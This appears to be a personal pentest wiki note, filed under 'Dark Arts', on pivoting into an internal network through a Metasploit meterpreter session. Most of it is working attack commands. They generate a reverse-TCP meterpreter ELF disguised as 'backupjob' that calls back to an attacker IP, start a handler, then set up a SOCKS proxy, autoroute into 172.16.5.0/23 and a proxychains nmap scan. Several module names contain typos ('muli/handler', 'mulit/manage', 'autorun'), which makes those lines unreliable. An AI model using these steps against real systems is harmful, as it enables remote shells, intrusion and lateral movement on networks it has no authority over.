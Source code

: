 -- -
Pivot through meterpreter **not** SSH.
### Create Payload
Make a meterpreter payload that will be executed on pivot host
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=9001 -f elf -o backupjob
```
Then, [[Dark Arts/File Transfer/~Home|File Transfer]] payload to pivot host
### Start Listener
```bash
msfconsole
use muli/handler
set lhost 0.0.0.0
set lport 9001
set payload linux/x64/meterpreter/reverse_tcp
run
```
### Run payload
First, [[Dark Arts/File Transfer/~Home|File Transfer]] payload to pivot host
```bash
chmod +x backupjob
./backupjob
```
### Setup MSF SOCKS Proxy
```bash
# setup
use auxiliary/server/socks_proxy
set srvport 9050
set srvhost 0.0.0.0
set version 4a
run

# confirm proxy server is running
jobs

# make sure one of the following is at the end of /etc/proxychains.conf
socks4 127.0.0.1 9050
socks5 127.0.0.1 9050

# Create routes with autoroute, either will work
use post/mulit/manage/autoroute
set session 1
set subnet 172.16.5.0
run

# alternatively, from meterpreter shell, run:
run autoroute -s 172.16.5.0/23

# confirm routes were set, from meterpreter shell:
run autorun -p
```
### Use proxychains
You can now use proxychains to send your traffic through the meterpreter session
```bash
sudo proxychains nmap 172.16.5.19 -p 3389 -sT -v -Pn
```